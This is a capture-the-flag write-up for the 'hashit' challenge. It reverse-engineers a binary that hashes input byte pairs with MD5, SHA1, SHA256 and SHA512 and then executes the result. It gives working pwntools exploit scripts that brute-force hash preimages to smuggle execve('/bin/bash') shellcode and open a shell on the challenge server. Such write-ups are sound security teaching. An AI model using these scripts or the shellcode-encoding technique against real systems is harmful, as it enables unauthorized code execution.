

# Hashit challenge

## 0x1 basic information

The challenge came with a downloadable binary.
After download, running some basic reconnaissance tools against the binary, we can gather the following information:

```bash
[*] '/home/marcix/CTF/DC22/hashit/hashit'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
marcix@playground:~/CTF/DC22/hashit$ file hashit
hashit: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=401e2907b44c7e1defabc701a2601fe6bb24fd25, for GNU/Linux 3.2.0, stripped
```

From here we can see, that the binary is compiled with the most up-to-date security features, dynamically linked and stripped. This will make the reverse engineering a bit more tedious, but at least the imported functions will give us some good pointers on the way.

## 0x2 understanding the binary

Since the binary gives no output upon running it, we will have to do some reverse engineering to understand what is going on under the hood. After locating the `main()`function - which you can find in `entry()`, looking at the first argument of `__libc_start_main()` -, we can see two more unknown function calls, an `alarm()` being set up. We will have to understand both of the functions as well as deal with the alarm when debugging, so the program does not exit without us wanting it.

```c
ulong main(void){
  undefined8 uVar1;
  void *__src;
  ulong uVar2;
  void *__dest;
  code *pcVar3;
  uint uVar4;
  uint uVar5;
  ulong uVar6;
  long in_FS_OFFSET;
  uchar local_45;
  uint local_44;
  long local_40;
  
  local_40 = *(long *)(in_FS_OFFSET + 0x28);
  alarm(0xa);
  local_44 = 0x0;
  uVar1 = FUN_00101440(stdin,(long)&local_44,0x4);
  if ((int)uVar1 == 0x0) {
    local_44 = local_44 >> 0x18 | (local_44 & 0xff0000) >> 0x8 | (local_44 & 0xff00) << 0x8 |
               local_44 << 0x18;
    uVar2 = (ulong)local_44;
    __src = malloc(uVar2);
    if (__src != (void *)0x0) {
      uVar2 = FUN_00101440(stdin,(long)__src,uVar2);
      uVar6 = uVar2 & 0xffffffff;
      if ((int)uVar2 == 0x0) {
        if (local_44 != 0x0) {
          uVar4 = 0x0;
          do {
            uVar5 = uVar4 >> 0x1;
            uVar1 = FUN_00101360(*(undefined *)((long)__src + (ulong)uVar4),
                                 *(undefined *)((long)__src + (ulong)(uVar4 + 0x1)),&local_45,
                                 (&PTR_EVP_md5_00104020)[uVar5 & 0x3]);
            if ((int)uVar1 != 0x0) goto LAB_001011f5;
            uVar4 = uVar4 + 0x2;
            *(uchar *)((long)__src + (ulong)uVar5) = local_45;
          } while (uVar4 < local_44);
        }
        __dest = mmap((void *)0x0,(ulong)(local_44 >> 0x1),0x7,0x22,-0x1,0x0);
        pcVar3 = (code *)memcpy(__dest,__src,(ulong)(local_44 >> 0x1));
        (*pcVar3)();
        goto LAB_001011f9;
      }
    }
  }
LAB_001011f5:
  uVar6 = 0xffffffff;
LAB_001011f9:
  if (local_40 == *(long *)(in_FS_OFFSET + 0x28)) {
    return uVar6;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

First I started reversing the two functions that are called from main. They are smaller in size, and made the main function easier to understand. `FUN_00101440()` is called twice from `main()`, and its arguments suggests, that it is some kind of `read()` function. Reversing its code wasn't too difficult and it confirms our suspicion. 

```c
undefined8 read_x_from(FILE *fd,long buffer,unsigned long length){
  size_t read;
  unsigned long offset;
  
  if (length == 0) {
    return 0;
  }
  offset = 0;
  do {
    read = fread((void *)(buffer + offset),1,length - offset,fd);
    if ((int)read < 1) {
      return -1;
    }
    offset = offset + (long)(int)read;
  } while (offset < length);
  return 0;
}
```

It uses `fread()` to read `length` number of bytes from the given `fd`.
On error it returns -1, otherwise 0.

The other function to understand, `FUN_00101360()`, seems a bit trickier at first glance, however when taking a second glance, it's more or less a standard implementation of hashing with one small caviat.

```c
undefined8 hash_with_algorithm(undefined param_1,undefined param_2,uchar *data_out,undefined *md_type){
  int md_size;
  EVP_MD_CTX *ctx;
  EVP_MD *digest_type;
  uchar *md;
  undefined8 ret;
  long in_FS_OFFSET;
  uint nul;
  undefined p1;
  undefined p2;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  p1 = param_1;
  p2 = param_2;
  ctx = (EVP_MD_CTX *)EVP_MD_CTX_new();
  if (ctx != (EVP_MD_CTX *)0x0) {
    digest_type = (EVP_MD *)(*(code *)md_type)();
    md_size = EVP_DigestInit_ex(ctx,digest_type,(ENGINE *)0x0);
    if (md_size == 0x1) {
      md_size = EVP_DigestUpdate(ctx,&p1,0x2);
      if (md_size == 0x1) {
        digest_type = (EVP_MD *)(*(code *)md_type)();
        md_size = EVP_MD_size(digest_type);
        md = (uchar *)malloc((long)md_size);
        if (md != (uchar *)0x0) {
          nul = 0x0;
          md_size = EVP_DigestFinal_ex(ctx,md,&nul);
          if (md_size == 0x1) {
            EVP_MD_CTX_free(ctx);
            *data_out = *md;
            free(md);
            ret = 0x0;
            goto LAB_00101417;
          }
        }
      }
    }
  }
  ret = 0xffffffff;
LAB_00101417:
  if (canary == *(long *)(in_FS_OFFSET + 0x28)) {
    return ret;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

What really happens here is two bytes, provided as the first two parameters, are being hashed with the given message digest typem provided as the fourth parameter, and the first byte of the resulting hash is then passed out in the third parameter.

Going back to our `main()` function armed with the knowledge, we can now make clear assumptions on what the code is really doing. 

```c
ulong main(void){
  int64_t read;
  void *malloced_memory;
  undefined8 success;
  void *mapped_memory;
  code *shellcode;
  uint i;
  uint idiv2_floor;
  ulong size;
  ulong ret;
  long in_FS_OFFSET;
  uchar hash_out;
  uint buffer;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  alarm(0xa);
  buffer = 0x0;
  read = read_x_from(stdin,(long)&buffer,0x4);
  if ((int)read == 0x0) {
    buffer = buffer >> 0x18 | (buffer & 0xff0000) >> 0x8 | (buffer & 0xff00) << 0x8 | buffer << 0x18
    ;
    size = (ulong)buffer;
    malloced_memory = malloc(size);
    if (malloced_memory != (void *)0x0) {
      size = read_x_from(stdin,(long)malloced_memory,size);
      ret = size & 0xffffffff;
      if ((int)size == 0x0) {
        if (buffer != 0x0) {
          i = 0x0;
          do {
            idiv2_floor = i >> 0x1;
            success = hash_with_algorithm(*(undefined *)((long)malloced_memory + (ulong)i),
                                          *(undefined *)((long)malloced_memory + (ulong)(i + 0x1)),
                                          &hash_out,(&md_types_array)[idiv2_floor & 0x3]);
            if ((int)success != 0x0) goto LAB_001011f5;
            i = i + 0x2;
            *(uchar *)((long)malloced_memory + (ulong)idiv2_floor) = hash_out;
          } while (i < buffer);
        }
        mapped_memory = mmap((void *)0x0,(ulong)(buffer >> 0x1),0x7,0x22,-0x1,0x0);
        shellcode = (code *)memcpy(mapped_memory,malloced_memory,(ulong)(buffer >> 0x1));
        (*shellcode)();
        goto LAB_001011f9;
      }
    }
  }
LAB_001011f5:
  ret = 0xffffffff;
LAB_001011f9:
  if (canary == *(long *)(in_FS_OFFSET + 0x28)) {
    return ret;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```


- It first reads 4 bytes and reverses the bytes read, changing it's endianness esentially
- `malloc()`'s a memory chunk of the size read, then reads as many data as we requested and fills the allocated chunk with it
- Then it iterates over the data we read in, and hashes its content 2-bytes at a time, and copies the first byte of the resulting hash into the place where our original data is residing, overwriting it
- At last, these bytes, produced by the hashing stage are copied to a `mmap()`-ed chunk, and are executed as shellcode.



One more thing that is worth mentioning, is the way the loop is selecting the type of the message digest. In each iteration, based on the iterator value, it selects the upcoming message digest type from an array, which contains four types of message digests: `MD5, SHA1, SHA256 and SHA512`.

## 0x3 exploitation

Armed with this knowledge, we can use the following python script to prove our theory.

```python
#!/usr/bin/env python3
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='amd64', terminal=["tmux", "splitw", "-h"])
exe = './hashit'

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote('hash-it-0-m7tt7b7whagjw.shellweplayaga.me', 31337)
    else:
        return process('./hashit', level='INFO')

#0x555555555100 --> main()
#0x555555555151 --> malloc
#0x555555555131 --> first read 4 bytes

gdbscript = '''
handle SIGALRM ignore
b *0x555555555131
b *0x555555555151
b *0x555555555209
c
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

size = 32
payload = b'A' * size

size = len(payload)
with start() as p:
    if args.REMOTE:
        p.recvuntil(b'Ticket please:')
        p.sendline(os.environ.get('HASHIT_TICKET').encode())
    p.send(p32(size, endian='big'))
    p.send(payload)
    p.interactive()
```

Running this script with `GDB NOASLR` arguments inside a `tmux` terminal gives us an interactive shell as well as a gdb instance inside tmux. That way we can watch what happens to the program as we provide inputs. The defined `gdbscript` is also provided to `gdb`, which does a few things for us on each run:

- `handle SIGALRM ignore` makes it so the `alarm()` call won't terminate the program
- the breakpoints are set so we can see the first 4 bytes before and after the byteshifthing,
- and look at the `malloc()` -ed segment before and after the hashing takes place.

Using `gdb` we can verify that we are in fact reading as much data as we want, and we can also check what happens to the data we send in. We can take a look at the heap chunks via the `heap chunks` gdb command.
_Note: This command by default is not available in gdb, but using extensions such as [GEF](https://gef.readthedocs.io/en/master/) is highly recommended, and provides extra functionality._
After finding the correct chunk, we can view its content with the following command: `x/6gx 0x55555555a2b0`.

```
0x55555555a2b0: 0x2858803b2858803b      0x2858803b2858803b
0x55555555a2c0: 0x4141414141414141      0x4141414141414141
0x55555555a2d0: 0x0000000000000000      0x0000000000000041
```

As we can see, half of our A's are gone, and have turned into some other bytes. Upon closer inspection we can verify, that the following bytes are repeating: `0x3b 0x80 0x58 0x28`. A quick verification shows, that:

- MD5(b'AA') == `3b`98e2dffc6cb06a89dcb0d5c60a0206
- SHA1(b'AA') == `80`1c34269f74ed383fc97de33604b8a905adb635
- SHA256(b'AA') == `58`bb119c35513a451d24dc20ef0e9031ec85b35bfc919d263e7e5d9868909cb5
- SHA512(b'AA') == `28`2154720abd4fa76ad7cd5f8806aa8a19aefb6d10042b0d57a311b86087de4de3186a92019d6ee51035106ee088dc6007beb7be46994d1463999968fbe9760e

All is left for us, to implement a simple function, which transforms our desired shellcode into such form, that when the correspoinding hashing algorithm is used, we get the shellcode bytes we want to have. We've implemented this functionality in python as well, and our final exploit is as follows:

```python
#!/usr/bin/env python3
from pwn import *
from Crypto.Hash import MD5, SHA1, SHA256, SHA512

# Set up pwntools for the correct architecture
context.update(arch='amd64', terminal=["tmux", "splitw", "-h"])
exe = './hashit'

def generate_shellcode(shellcode):
    counter = 0
    ret = b''
    pr = log.progress('Generating shellcode')

    # setting up different constructors for hashtypes
    algo = [MD5.new, SHA1.new, SHA256.new, SHA512.new]

    for byte in shellcode:
        pr.status(f'{counter * 100/ len(shellcode)}%')
        # check every possible 2-byte combinations
        for i in range(0xffff + 1):
            data = i.to_bytes(2, 'big')
            # call appropriate constructor
            h = algo[counter % 4]()
            h.update(data)
            if h.digest()[0] == byte:
                ret += data
                break
        counter += 1

    pr.success('Done')
    return ret


def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote('hash-it-0-m7tt7b7whagjw.shellweplayaga.me', 31337)
    else:
        return process('./hashit', level='INFO')

#0x555555555100 --> main()
#0x555555555151 --> malloc
#0x555555555131 --> first read 4 bytes

gdbscript = '''
handle SIGALRM ignore
b *0x555555555131
b *0x555555555151
b *0x555555555209
c
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

shellcode = f"""
{shellcraft.execve('/bin/bash')}
"""

payload = generate_shellcode(asm(shellcode))

size = len(payload)
with start() as p:
    if args.REMOTE:
        p.recvuntil(b'please:')
        p.sendline(os.environ.get('HASHIT_TICKET').encode())
    p.send(p32(size, endian='big'))
    p.send(payload)
    p.interactive()
```

The payload, which is `execve('/bin/bash')`, is produced by the [pwntools](https://docs.pwntools.com/en/stable/) library, and then transformed by the `generate_shellcode()` function. Running the exploit, we get a fully functional remote shell, and we can simply `cat` the flag.